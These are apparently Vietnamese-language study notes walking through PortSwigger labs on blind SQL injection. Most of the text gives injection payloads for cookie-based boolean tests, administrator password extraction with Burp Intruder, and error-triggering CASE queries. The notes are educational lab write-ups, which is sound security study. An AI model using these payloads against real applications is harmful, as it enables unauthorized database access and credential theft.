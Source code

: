 I. Blind SQL injection vul<br>
+ app ko phản hồi kết quả của truy vấn SQL or chi tiết lỗi database trong phản hồi của nó
+ UNION attack ko hiệu quả trong trh này<br>

II. Exploiting blind SQL injection by triggering conditional responses<br>
1. Lý thuyết<br>
+ TrackingId cookie khi đc xử lý -> app sẽ báo là có phải ng dùng đã bt hay ko <br>
-> đây là lỗ hổng can khai thác<br>
+ cho phép xác đinh câu trl cho bất kì điều kiện đơn đc tiêm nào và trích xuất từng phần data tại 1 thời điểm (đúng thì phản hồi sai thì ko)<br>

2. Lab: Blind SQL injection with conditional responses<br>
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection
vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses<br>

3. Giải<br>
+ B1 xác định TrackingId hoạt động ko: Cookie: TrackingId=cokrQmPGjyNp6yK5; (này có sẵn trong phản hồi rồi) -> trả về Welcome Back
+ B2 check phản hồi khi đk đúng or sai:
<br>Đúng: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=1-- -> phản hồi
<br>Sai: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=2-- -> ko phản hồi
+ xác định có bảng users ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users limit 1) = 'x'-- -> phản hồi
+ xác định có username 'administrator' ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator') = 'x'-- -> phản hồi
+ xác định chiều dài password: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator' and length(password)>1) = 'x'--
+ thử lần lượt đến khi tìm thấy chiều dài phù hợp: 20 (can tìm bằng Intruder)
+ tìm mật khẩu (nhiều kí tự -> xài Burp Intruder):Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,1,1) from users where username='administrator')='§a§'-- (trọng tải đánh vào chữ 'a')
+ vào payload add vào danh sách 0-9, a-z, vào cài đặt phần Grep-match sửa thành 'Welcome' và chạy lấy kết quả<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8c7db2d6-426c-4ed4-876a-86b58ed091bd)<br>

Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,2,1) from users where username='administrator')='§a§'-- <br>
-> tiếp tục đến khi tìm đc toàn bộ mật khẩu: pduzuqxql3l3z6bguzec<br>

III. Error-based SQL injection<br>
1. Lý thuyết<br>
- nơi bạn can xài tin nhắn lỗi để trích xuất hoặc suy ra dữ liệu nhạy cảm từ cơ sở dữ liệu dù trong ngữ cảnh mù
- phụ thuộc cấu hình database và loại lỗi bạn can gây ra:<br>
  + khiến app trả về phản hồi lỗi cụ thể dựa trên kết quả biểu thức bool
  + kích hoạt thông báo lỗi xuất data đc truy vấn trả về, biến vul mù thành can thấy được<br>

IV. Exploiting blind SQL injection by triggering conditional errors<br>
1. Lý thuyết<br>
- dùng khi tiêm điều kiện bool khác nhau ko trả về phản hồi khác nhau
- xài cách: sửa truy vấn làm lỗi database chỉ khi đk đúng, thg thì lỗi database sẽ gây ra các phản hồi app khác nhau
- VD:<br>
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a<br>
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a<br>
- xài CASE: check điều kiện và trả về 1 biểu thức khác phụ thuộc vào biểu thức đúng hay ko: BT1: ko có lỗi, BT2: lỗi chia cho 0
- -> dùng để check khi điều kiện tiêm là đúng: xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
- 
